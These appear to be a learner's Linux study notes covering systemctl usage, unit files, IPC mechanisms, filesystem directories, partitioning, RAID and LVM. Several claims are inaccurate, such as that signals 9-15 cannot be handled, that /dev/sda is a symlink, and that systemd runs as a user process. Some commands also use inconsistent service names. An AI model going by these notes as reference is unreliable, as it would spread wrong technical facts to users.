- **Systemd cons**

  - feature creep/bload - systemd runs as a user process and it's starting to get some of the Kernel duties which raise consirn in terms of security
    - Manage process (default) (/proc)
    - Manage logging process
    - Manage devices (/udev)
    - Manage network (/NFS)
    - Manages timers
    - logging host name
  - Logs stored in binary format - a clear and direct violation of the **UNIX** philosophy and standard, it's supposed to be in text that way it can be piped
  - interlocking dependancy (tightly coupled) - that is undesirable, the unix archticture we prefer things to be losly coupled so we can have a more flixable system
  - Hard to avoid, replace or use in part as it's all or nothing strategy. (tightly coupled nature)
  - singular design mission based on Linux, not easily ported to [BSD](Berkeley software distribution, a family of UNIX-like OS originally derived from the UNIX OS)

Modern system manager (`systemctl`, `journalctl`).

**Configuration file path**

```
/etc/systemd/system.conf
```

##### Practical

it's the smallest thing systemd can manage

units are: services, timers, target ,mounts, automounts, sockets, and there's more

###### Most important/Basic commands in Systemd

**we will introduce the commands in an example form**

the following example can be applied for any service but we are applying it on apache.

**1- let's install a service to play with**

```bash
sudo apt install apache2
```

*apache is a web server service and running that your server becomes a web server*

**2- Go to your local host**

open a web browser and Go to http://localhost  

does it work? Yes? Why? you are prabaly using Ubuntu, Depian or a distro that is based on them

No? Why? you are using enterprise linux, Redhat, fedora, CentOS, ...

**3- Check the status of the unit with systemd** 

```
systemctl status apache2
```

***ctl** stands for **control***

*Analyse the output*

**4- Maunally start apatche (if the service is not already started)**

```bash
sudo systemctl start apache
```

*attempt to refresh the page*

​	a test page should appear

**5- Stop apache service** 

```bash
sudo systemctl stop apache
```

*attempt to refresh the page*

​	the page should not be available 

**6- restart apache service**

```bash
sudo systemctl restart apache
```

*attempt to refresh the page*

​	the page should be available

​	this is useful when you change a configuration and you wan these configuration to be applied.

**7-Reload**

```bash
sudo systemctl reload apache
```

*attempt to refresh the page*

​	the page should be available

you can use reload to reload the configuration you made in your current session of the application without disconnecting the user

**Note that:**

not every service will have the option of reload, and not all configurations supports reload, so you might still need restart.

**8- How to enable a service when the computer startup**

```bash
sudo systemctl enable apache
```

 *analyse the output*

a symlink was created to the service

```output
created symlink /etc/systemd/system/multi-user.target.wants/apache2.service -> /use/lib/systemd/system/apache.service
```

**check the status again**

**9- How to disable a service when the computer startup**

```bash
sudo systemctl disable apache
```

**check the status again**

**10- alter the config of a unit file**

```bash
sudo systemctl edit apache.service
```

it will open unit file that exist in `etc/systemd/system/apache.service` and the file name is `override.conf` 
but why this path and this naming?

this is because directories has priorities something we will discover in the next section

**V.I.Notes**

-  that the whole file is commented out, it could have given you an empty file for you to edit, but it did give you the basic configuration in comments for reference
- you must write you configuration in a specific place in the file.

**11- alter the config of a unit file**  

```bash
sudo systemctl edit --full apache.service
```

it will open unit file that exist in `etc/systemd/system/apache.service` and the file name is `override.conf` 

**V.I.Notes**

Unlike the previous command this file is not commented out 

**12- realod systemd as a whole** 

```bash
sudo systemctl daemon-reload
```

you can use `sudo systemctl reload` for your unit file system to be reloaded into the systemd, but what if you want to reload the whole systemd maybe because you made multiple changes to multiple units and you want systemd to reload all of them without you tracking which one to is updated by systemd and which one is not.

###### Units directories

for each unit there is a file that represent it and that you can configure

these are **units directories** in priority order where you can find these files:

> the order of these files are of priority *-> this means that if you made configuration in etc it will overwrite any configuration you write in run and whatever configuraiton you made in run overwrites the ones you made in lib*

- **/etc/systemd/system**
  - when you make your own service, it's adviced to put it here 
    - reason : if you put in in a lower prioriy directory it can be overwritten by an update, if written in any lower priority  directory
- **/run/systemd/system**
  -  this saved the runtime systemd units
- **/lib/systemd/system** 
  - the unit file get installed here, when you install the application, which is smart as when package manager installs application to your system, it does have the lowest priority of configuraiton, which you can overwrite in any higher priority 

###### Units file content

you can open it with any editor you want

```bash
nano /lib/systemd/system/apache2.service
```

*Content template*

```text
[Unit]
Description=you write here the description of your file
Wants= identfies a pre-requist "a single one only"
After= identfies a pre-requist #2 "can have multiple units and they can be in order as well"
Before= identfies that this unit need to run before some other unit/s, that create depancy and order of the units to run
Documentation= you can list man pages, urls, or any type of Documentaion here  

[Service]
Type= 
notify -> this waits for the unit to be ready and the unit notify systemd and then systemd can run it
simple -> systemd will run the unit regardless of it's state,and systemd will assume it's up and running.
forking -> The original process (parent) starts, does some initialization work, then forks a child process to continue running in the background.
The parent process exits, and the child (daemon) process continues running.
This is a traditional Unix-style daemon behavior.
oneshot –> for short-lived or one-time commands.

Environment=LANG=C

ExecStart=this tells the unit where is the binary where it should run
'usr/sbin/'

ExecReload=this tells the unit where is the binary it shoould run when it needs to reload
'usr/sbin/'


ExecStop= this tells the unit what binaries to run when it's stoping the unit
'usr/sbin'

you can have an Exec stop or you can have a SIGWINCH for graceful stop

# Send SIGWINCH for graceful stop
KillSignal=SIGWINCH
KillMode=mixed
PrivateTmp=true
OOMPolicy=continue

[Install] //optional section, it puts the unit file to a target which make it enabled to use, like we did before with the commands

WantedBy=multi-user.target
```

***Apache unit file***

```text
[Unit]
Description=The Apache HTTP Server
Wants=httpd-init.service //this is not required in Ubuntu or debian
After=network.target remote-fs.target nss-lookup.target httpd-init.service
Documentation=man: httpd. service (8)

[Service]
Type=notify
Environment=LANG=C

ExecStart=/usr/sbin/httpd $OPTIONS -DFOREGROUND
ExecReload=/usr/sbin/httpd $OPTIONS -k graceful
# Send SIGWINCH for graceful stop
KillSignal=SIGWINCH
KillMode=mixed
PrivateTmp=true
OOMPolicy=continue

[Install]
WantedBy=multi-user.target
```

------

### 7. Inter-Process Communication (IPC)

Mechanisms for processes to communicate.

#### Pipes (`|`)

A **pipe (`|`)** is a shell operator that takes the **stdout (standard output)** of one command and passes it as **stdin (standard input)** to another.

```bash
command1 | command2
```

a pipe has a buffer- default max is in  `/proc/system/fs/pipe-max-size` this can be changes within the process

##### Controlling pipe line speed -> pipeline viewer (pv)

```bash
command1 | pv -L 10M | command2
```

```
pv -L 500k command
```

**Common Options**

| Option    | Description                       |
| --------- | --------------------------------- |
| `-p`      | Show progress bar (default)       |
| `-t`      | Show elapsed time                 |
| `-e`      | Show ETA                          |
| `-r`      | Show data transfer rate           |
| `-b`      | Show bytes transferred            |
| `-L RATE` | Limit transfer rate (e.g., `1m`)  |
| `-s SIZE` | Specify total size (for estimate) |
| `-n`      | Numeric output for scripting      |

##### Pipeline buffer

**What**: mbuffer to create an in-memory data sink in a pipe It's like `pv`, but with **advanced buffering, throttling, and networking capabilities**.

**Why**: when you have 1st command that transmits data faster than the 2nd command can handle.

**How:**

###### 1-simple file copy with progress

```bash
mbuffer < file.iso > file_copy.iso
```

this copies a file while buffering the I/O and showing a progresss bar.


###### 2-Buffer data between two commands

```bash
command1 | mbuffer -m 100M | command2
```

this command specifies a 100 MB as a buffer for the 2 command to write/read to/from

**the default linux buffer for piping 1MB**


###### 3-send data over the network(TCP)

**on sender** 

```bash
cat file.iso | mbuffer -O receiver_ip:9090
```

```
command1 | mbuffer -O host1:2000 -O hostN:XXXX
```

**on receiver**

```bash
mbuffer -I 9090 > received_file.iso
```


###### 4- Throttled transfer

```bash
mbufffer -r 10M < bigfile > /dev/null
```

`-r 10M` limits the transfer rate to 10 MB/s.

Example with `dd` and `mbuffer`

```bash
dd if=/dev/sda bs=1M | mbuffer -m 512M > backup.img
```

**Useful Options**

| Option         | Description                          |
| -------------- | ------------------------------------ |
| `-m SIZE`      | Buffer size (e.g., `128M`)           |
| `-r RATE`      | Limit read speed (e.g., `10M`, `1G`) |
| `-t RATE`      | Limit throughput (combined I/O rate) |
| `-s SIZE`      | Block size                           |
| `-I PORT`      | Listen on port                       |
| `-O HOST:PORT` | Send data to host:port               |
| `-v`           | Verbose (shows progress, rate, etc.) |

**🔁 `pv` vs `mbuffer`**

| Feature         | `pv`     | `mbuffer`                    |
| --------------- | -------- | ---------------------------- |
| Basic progress  | ✅        | ✅                            |
| Buffer control  | ❌        | ✅                            |
| Networking      | ❌        | ✅ (`-I`, `-O`)               |
| Rate limiting   | ✅ (`-L`) | ✅ (`-r`, `-t`)               |
| Max performance | ❌        | ✅ (handles large I/O better) |


##### tee command

you can use pipeline to transfer output of one command as an input to another command

but what if you also want to see the output of the 1st command

here the T comes in so it litrerally does what it looks like, 1st process has 2 outputs

 **Example 1: Save and View Output at the Same Time**

```bash
ls -l | tee list.txt
```

**Example 2: Append Instead of Overwriting**

```bash
echo "another log" | tee -a logs.txt ...
```

- `-a` means append (instead of overwriting the file)

**`tee` vs Redirection**

| Feature              | `>`/`>>` | `tee`    |
| -------------------- | -------- | -------- |
| Show output          | ❌        | ✅        |
| Save to file         | ✅        | ✅        |
| Append mode          | ✅        | ✅ (`-a`) |
| Use with `sudo`      | ❌        | ✅        |
| Multiple file output | ❌        | ✅        |

#### Named Pipes (FIFOs)

you already know First input First output concept, now let's apply it to 

##### 1st : Make FIFO file

```bash
mkfifo <Aly_FIFO>
```

##### 2nd : assign a utility to the FIFO file

```bash
echo "Hello from Named Pipe" > <Aly_FIFO>
```

##### 3rd : in a new terminal

```bash
cat <Aly_FIFO>
```

**fun fact** : when you try to list the permissions 

```bash
ls -l <Aly_FIFO>
```

You will find

```bash
prw-rw-r-- 1 pi pi 0 Oct 4 19:15 <Aly_FIFO>
```

the `p` in the output stand for `Pipe` as this is a special pipe file

#### Shared Memory



- Shared Memory is full duplex, either process can read and/or write
- Most efficient type of IPC, it does not require any kernel intervention once the shared memory has been allocated/deallocated
- Requires a Program
- Any number of processes can read and/or write to the same shared memory segment
- You can query shared memory with the `ipcs` command
- Processes must manage shared memory
- Processes must protect (synchronize) shared memory being written or race conditions will occur
- Ofcourse dealing with shared memory you have to be careful so you won't have a race condition, deadlock or any other problem.

**Example in C**

**Step 1: Writer (creates and writes to shared memory)**

```c
// writer.c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <string.h>

int main() {
    key_t key = ftok("shmfile", 65);              // Generate unique key
    int shmid = shmget(key, 1024, 0666 | IPC_CREAT); // Create shared memory
    char *str = (char*) shmat(shmid, (void*)0, 0);   // Attach to memory
    strcpy(str, "Hello from shared memory!");
    printf("Data written: %s\n", str);
    shmdt(str);                                      // Detach
    return 0;
}

```

**Step 2: Reader (reads from shared memory)**

```c
// reader.c
#include <stdio.h>
#include <sys/ipc.h>
#include <sys/shm.h>

int main() {
    key_t key = ftok("shmfile", 65);              // Same key
    int shmid = shmget(key, 1024, 0666);          // Locate memory
    char *str = (char*) shmat(shmid, (void*)0, 0);   // Attach
    printf("Data read: %s\n", str);
    shmdt(str);                                      // Detach
    shmctl(shmid, IPC_RMID, NULL);                  // Remove memory
    return 0;
}

```

**Compile & Run**

```bash
touch shmfile        # Used by ftok()
gcc writer.c -o writer
gcc reader.c -o reader

./writer
./reader
```

#### Message Queues



- Message Queues are created by a syscall
- Message Queues are managed by the kernel
- Once a message is read it is deleted from the queue by the kernel
- Each Read and Write creates a syscall to the kernel
- The message queue helps eliminate the occurrences of race conditions but comes at the expense of performance due to the syscall interrupt 



- Message Queues can have any number of read and write processes
- Usually there is just one write process but this is just convention not a rule
- Process 1 Writes A, D and F
- Process 2 reads and receives Message A,
   Message A is then removed
- Process 3 reads and receives Message D,
   Message D is then removed
- Process 4 reads and receives Message F,
   Message F is them removed
- Data will remain in the queue until it is read, once read its gone

#### Semaphores

- Semaphores are used to protect critical/ common regions of memory shared between multiple processes
- Semaphores are the atomic structures of operating systems
- Two types of semaphores:

- Binary - only two states 0 and 1, locked/unlocked, or available unavailable..etc.

- Counting Semaphores - allow arbitrary resource counters

  

- When a process "allocates" (accesses) a semaphore, it waits (blocks) the other processes from access until the first process issues a
   "release" indicating it has completed its operation

- The kernel then makes the semaphore available again for allocation

#### Signals

- A signal is a notification of an event occurrence
- A signal is also known as a trap, or software interrupt
- If you perform a `kill-l` at the command line you will receive a full list of signals used by Linux

- Signals can be generated by a user, a process or the kernel
- A process is so supposed to be written to handle them
- Certain signals numeric 9-15 can not be handled by the process they will immediately cause termination of the process and can not be blocked, these are called
   "**process crash-outs**".
- Example: **CTRL-C** at the terminal will send a SIGINT signal to the process which is currently running in the foreground

#### Sockets

- Sockets use something called an "address family" to determine how communication happens

  - **AF_INET**: This is the most common type. It's used for IPv4 addresses on a network, like the ones you see on websites.

    - here's an example of how you might create a TCP socket for IPv4:

      - ```c
        int sockfd = socket(AF_INET, SOCK_STREAM, 0);
        ```

        - The 0 as the third argument tells the system to choose the default protocol for the given socket type. In this case, it'll be TCP.

  

  - **AF_UNIX**: This one's a bit different. It's used for communication between processes on the same machine. Think of it like a local shortcut.

    - here's an example of creating a Unix domain socket:

      ```c
      int sockfd = socket(AF_UNIX, SOCK_STREAM, 0);
      ```

      - You'll still use SOCK_STREAM for a TCP-like connection, but the addresses will be file paths instead of IP addresses.

  

- Commands: `ipcs`, `netstat`, `ss`, `lsof`, `strace`


------------

### 8. Devices  and Device Management 

Everything in Linux is a file.

#### File system

**what is a filesystem?**

- a file system is a hierarchical collection of data organized into directories, sub directories and files
- Linux also requires a file system to implement 
  - open()
  - close()
  - Read()
  - Write()
- **Examples**
  - ext4
  - NTFS
  - FAT32
  - XFS
  - Btrfs

**Difference between mounted file systems and raw device (memory accessors) e.g sda,sdb,sdX?**

| Concept                   | Mounted File System                                     | Raw Device (e.g., /dev/sda)                              |
| ------------------------- | ------------------------------------------------------- | -------------------------------------------------------- |
| 🗂️ What it is              | A user-accessible interface to a storage hierarchy      | A physical or virtual block device                       |
| 📍 Where it lives          | Appears as a directory (e.g., `/`, `/home`, `/mnt/usb`) | Appears in `/dev/` (e.g., `/dev/sda`, `/dev/nvme0n1`)    |
| 🔌 Purpose                 | Lets you access files and folders                       | Represents the entire disk or partition                  |
| 🔄 Relationship            | Mounted “on top of” a block device or partition         | Provides raw access to the disk (can read/write sectors) |
| 🧠 Human-friendly?         | Yes — you work with files like `mydoc.txt`              | No — you need tools like `dd`, `fdisk`, or `hexdump`     |
| 💥 Usage without mounting? | Not possible (you can’t `cd` into it)                   | Yes — useful for formatting, partitioning, backup tools  |

**A side note:** 

**How to list all the mounted file systems**

```bash
mount | grep -v sd | grep -v :/
```

you just excludes `sd` and `:/` which are a convential symbols used with the raw devices (memory accessors).

##### Virtual files 

**Use:**

virtual filesystem hierarchy used for device and system management. 

###### /proc 

**Analogy**

the **Linux Schrodinger's cat**, the file exist only when you access it, other wise it does not exist, so it kinda exist and does not exist at the same time, hence **Linux Schrodinger's cat** 

**Technical**

it's just a shared object, it's used by the kernel to present state into a file system and it's a snapshot of that state, and the kernel will only provide this state when you requist it through a utility that issues read() sys call, and that allow your process in user space access that and take actions upon it e.g `top` , `htop`, `pid`, `galnce`, etc

**Example** 

- let's use a program that does not issue a read() sys call for a proc file

**Example 1**

```bash
file proc/meminfo
```

*file : determines what kind of file we have*

*Output*

```text
/proc/meminfo: empty
```

**Example 2**

```bash
ls -lh /proc/meminfo
```

*ls -lh: list in long listing format and in human readable form*

*Output*

``` text
-r--r--r-- 1 root root 0 Oct 8 11
```

as you can see there is 0 in the outout as the size

- now let's use a program that does issue a read() sys call for the same proc file

**Example 1**

```bash
wc -l /proc/meminfo
```

*wc: world count, -l lines, return the number of lines that exist in that file*

*Output*

```text
53 /proc/meminfo
```

###### /sys - Stable Application Binary Interface (ABI)

- the files in sys are known as K-objects or Kernel objects
- the sys has a counter for each K-objects
- when counter of K-object reaches zero - the kernel removes the K-object and recalims any resources used by it
- sys is not a static, it's updated regulary 

###### /dev - devices

you can find device information in your /dev virtual file system

**Udev - user space devices**  is responsible for the dynamic device management needed for hot plugging devices, when a device is added or removed from the system, the kernel send an **event** to **systemd-udevd.service** daemon.

the **daemon** searches for the **configured rules** --**to match**--> the **event** **with** **a rule** to identify the device

###### /run


###### /tmp


###### /mnt


###### /media


##### Static System Directories 

these directories follow the **Filesystem Hierarchy standard - FHS**, These are more **conventional** directories used by the system for configuration, binaries, logs, etc.

###### /Home

|
|--> Omar
|--> Aly
	|----> Desktop
        |----> Documents
	|----> Downloads
	|----> ...

inside home you will find the directories of the user 

###### /USR - Unix system resources

|
|

###### | ---> /BIN

| 		Here there are the binaries of the software that you installed yourself for this user only,     |		 symlinked to /bin .
|

###### |---> /SBIN 

|		has the essential executable for super user (root)
|

###### |--->/Local

|
|------->**/BIN**

​		  Here there are the binaries that you compile yourself.

###### /BIN - binaries

has the essential executables to the OS **points to /USR/BIN**

###### /SBIN - system binaries

has the essential executable for super user (root)  **points to /USR/SBIN**

**Example**

`mount user`, `delete user`

###### /LIB - Library

many of these /BIN and /SBIN utilities depend upon libraries, which exist in the /LIB directory

###### /LIB64

###### /ETC - Editable text configuration

this directory has the configuration of the system and service applications in your OS, the scope of the change is in the while system (not user specific)

###### /OPT - optional 

###### /VAR - variables

###### /TMP - Temp

###### /BOOT

###### /root

###### /srv

###### /lost+found

**all these binaries are Confusing to you?**

you can always use the `which` command to 

**BPF or eBPF** **(Berkley Packet Filter or enhanced BPF)**

- It's an interface that sits between user land and Kernal land, to allow you make query about the running objects that could be totally different than the one that was provided by the /proc or by /sys 

- Used in

  - tracing a program like `strace`
  - tracing of the file i/os 
  - collect information in real time

- How

  - ```bash
    sudo apt install bpfcc-tools
    sudo vfsstat -bpfcc
    ```

    *virtual file system state*
    
    

##### Filesystem types:

| Type      | Description                            |
| --------- | -------------------------------------- |
| `ext4`    | Common Linux file system               |
| `xfs`     | Scalable, journaling filesystem        |
| `btrfs`   | Modern, CoW (copy-on-write) filesystem |
| `vfat`    | Windows-compatible (USBs, etc.)        |
| `ntfs`    | Windows NT File System                 |
| `iso9660` | Optical media like CD-ROMs             |

#### Partitioning 

##### Partitioning types

MBR and UEFI

| Feature                     | MBR (Master Boot Record)                | UEFI (Unified Extensible Firmware Interface)                 |
| --------------------------- | --------------------------------------- | ------------------------------------------------------------ |
| **Firmware Type**           | Legacy BIOS                             | Modern UEFI                                                  |
| **Partition Scheme**        | MBR partitioning                        | GPT (GUID Partition Table) (GUID -> **Globally Unique Identifier**) |
| **Max Partitions**          | 4 primary (or 3 primary + 1 extended)   | Up to 128 primary partitions (no need for extended)          |
| **Max Disk Size Supported** | 2 TB (due to 32-bit LBA limit)          | > 9 ZB (zettabytes)                                          |
| Boot Loader Location        | Stored in first 512 bytes of the disk   | Stored as .efi file on EFI System Partition (ESP)            |
| **Boot Mode**               | BIOS-based boot                         | UEFI boot via EFI executables                                |
| **Secure Boot**             | ❌ Not supported                         | ✅ Supported (prevents unsigned code at boot)                 |
| **Partition Table Storage** | Single location (no redundancy)         | GPT stores multiple copies of partition table (backup)       |
| **Tools Used**              | fdisk, parted                           | gdisk, parted, efibootmgr                                    |
| **Introduced**              | Early 1980s                             | Mid-2000s                                                    |
| **Compatibility**           | Compatible with legacy systems and OSes | Requires UEFI-compatible OS and hardware                     |
| **Typical File Systems**    | ext3, NTFS, FAT32                       | FAT32 for ESP (EFI partition)                                |
| **OS Boot Support**         | Limited — can't boot from disks >2TB    | Can boot large drives, multiple OS entries, faster boot      |

##### Formatting block devices 

- **EXT4** - this is well suited to Linux OS workload and C programs
- **XFS** - Used by **Redhat** and does only metadata journaling and no data journaling, which can lead to corrupted data in case of power loss, however it's considered **high performance file system**
- **ZFS** - **copy on write file system**, supports snapshotting, cloning, organizing volumes into RAID like arrays
  - **Ubuntu** - now ships a kernel and distro which allows it's installation as a root filesystem and **Debian** includes the source code for ZFS in it's repo
  - A **Copy-on-Write (CoW)** file system is a type of file system that delays copying data until it's absolutely necessary. Instead of overwriting data immediately (which would discard the original), **CoW** systems initially create a reference to the original data — and only copy the modified part when a write actually occurs. This approach makes file operations more efficient, especially for snapshots and cloning.
- **BTRFS** - Used by **Fidora** modern, **copy on write file system** and it's architecture allows for volume management functionality including snapshots, cloning, volumes
- **NTFS**
- **FAT32**


**How Linux Manages Block Devices - dev/sda?**

in Linux everything is a file, a block device has an entry created automatically in /dev for each device and each partition on that device.

**/dev/sda** is a **symbolic link** to a Linux kernel assigned hardware address for the block devices 

**Booting relation to Partition Type:**


#### RAID - Redundant Array of Independent Disks

(Originally: “Inexpensive Disks” — now more commonly referred to as “Independent Disks.”)

**What is RAID?**

RAID is a **data storage virtualization technology** that combines multiple physical hard drives into a single logical unit to:

-  Provide redundancy (protect against disk failure)
-  Improve performance
-  Expand storage capacity

**Why use RAID?**

- Prevent data loss if a disk fails (depending on the RAID level)
- Improve read/write speeds through disk striping or parallel access
- Appear as one logical disk to the OS

**Common RAID Levels:**

| RAID Level  | Description                                  | Min Disks | Pros                          | Cons                                 |
| ----------- | -------------------------------------------- | --------- | ----------------------------- | ------------------------------------ |
| **RAID 0**  | Striping (no redundancy)                     | 2         | Fast read/write               | No fault tolerance                   |
| **RAID 1**  | Mirroring (exact copy of data)               | 2         | Redundancy, simple            | Wastes half of storage               |
| **RAID 5**  | Striping + Parity                            | 3         | Balanced performance + safety | Slower write, 1 disk fault tolerance |
| **RAID 6**  | Striping + Dual Parity                       | 4         | Can handle 2 disk failures    | Slower write, needs more disks       |
| **RAID 10** | Mirroring + Striping (RAID 1 + RAID 0 combo) | 4         | Speed + redundancy            | Expensive (needs more disks)         |

##### **Striping:** 

**What does Striping mean in RAID?**

**Striping** is a technique where data is split into equal-sized blocks and written across multiple disks in parallel.

**Think of it like this:**

Imagine you want to write the sentence:

> “Linux is awesome”

With striping across 3 disks, it might be split like this:

- **Disk 1:** Lin
- **Disk 2:** ux 
- **Disk 3:**  is
- **Disk 1 (next):**  aw
- **Disk 2:** es
- **Disk 3:** ome

Each disk stores a chunk, and they all work together.

**What does striping do?**

| Benefit       | Explanation                                                  |
| ------------- | ------------------------------------------------------------ |
| 🚀 Speed boost | Since data is written/read across disks in parallel, it increases throughput |
| 📂 Space usage | All disk space is used (no redundancy unless combined with mirroring/parity) |

##### **Parity:** 

What is Parity in Linux?

- Parity is a calculated value derived from data blocks across multiple disks.
- It doesn’t store a copy of the data but a checksum-like value.
- When a disk fails, parity combined with remaining data allows reconstruction of lost content.
- More complex read/write due to parity calculation.

---------

#### LVM - Logical Volume Management

##### What is LVM?

**LVM** allows you to:

- Create virtual partitions (logical volumes) that sit atop physical storage.
- Resize volumes on the fly.
- Combine multiple disks into one large logical pool.
- Snapshots, backups, and migrations become much easier.

##### How It Works

1. **Physical Volumes (PVs):**
   - Raw disks or partitions (e.g., `/dev/sdb1`)
   - Initialized with `pvcreate`.
2. **Volume Groups (VGs):**
   - Pool of storage created from one or more PVs.
   - Think of it as a big storage box.
   - Initialized with `vgcreate`
   - vgs shows you the volume groups `vgs`
3. **Logical Volumes (LVs):**
   - Virtual "partitions" carved out of a VG.
   - Can be mounted and used like regular partitions.
   - initalized with `lvcreate`

##### Why Use LVM?

| Feature                    | Description                                                  |
| -------------------------- | ------------------------------------------------------------ |
| **Resizing on the fly**    | Expand or shrink LVs without rebooting.                      |
| **Snapshots**              | Create point-in-time copies for backup or testing.           |
| **Multiple disks**         | Aggregate many disks into a single VG, easier space management. |
| **Migration**              | Move data between disks live (e.g., replace old HDDs).       |
| **RAID-like capabilities** | Some redundancy/mirroring features built-in.                 |

**Downsides**

- Slight performance overhead.
- More complex setup and troubleshooting than basic partitions.
- Requires **initramfs** hooks to boot from LVM root.

**Quick Analogy**

Think of LVM like Lego storage:
 You can build, reshape, or add new blocks without tearing down the house.

------------

#### Mounting storage:

- To mount a file system you have to pick or create a place on the system file tree to mount your device\, never mount on the file system already existing, e.g don't mount over proc, sys, home, bin, etc.
- the file /etc/fstab is used to define the block device name , the mount point, the filesystem type, the mounting options and some other goodies.
  - you can use a different file, if you define it to **systemd.mount**, but that is uncommon 

utilities: `mount`, `umount`, `fstab`

Commands: `mount`, `df`, `du`, `lsblk`, `blkid`

**What Are Mounting Technologies in Linux?**

